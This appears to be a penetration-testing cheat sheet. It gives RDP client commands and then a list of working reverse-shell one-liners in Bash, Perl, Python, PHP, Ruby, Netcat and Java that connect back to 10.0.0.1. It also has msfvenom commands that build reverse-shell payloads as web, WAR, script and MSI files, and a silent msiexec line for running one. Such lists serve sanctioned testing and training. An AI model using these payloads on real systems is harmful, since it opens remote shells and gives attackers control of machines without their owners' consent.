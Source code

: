 RDP
rdesktop
rdesktop -u guest 10.10.129.180:3389

sudo apt install freerdp2-x11 freerdp2-shadow-x11
xfreerdp /u:usuario /p:password /v:ip /cert-ignore



## Reverse Shells

### Bash
> bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
### Perl
> perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
### Python
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
### PHP
> php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
### Ruby 
> ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
### Netcat
> nc -e /bin/sh 10.0.0.1 1234
### Java
> r = Runtime.getRuntime()
> p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
> p.waitFor()
### Metasploit
- PHP > msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
- ASP > msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
- ASPX > msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.101 LPORT=53 -f aspx -o shell.aspx
- WAR > msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
- JSP > msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
- BASH > msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

- Windows Installer (MSI) > msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi 
Necesita ejecutarse con: msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
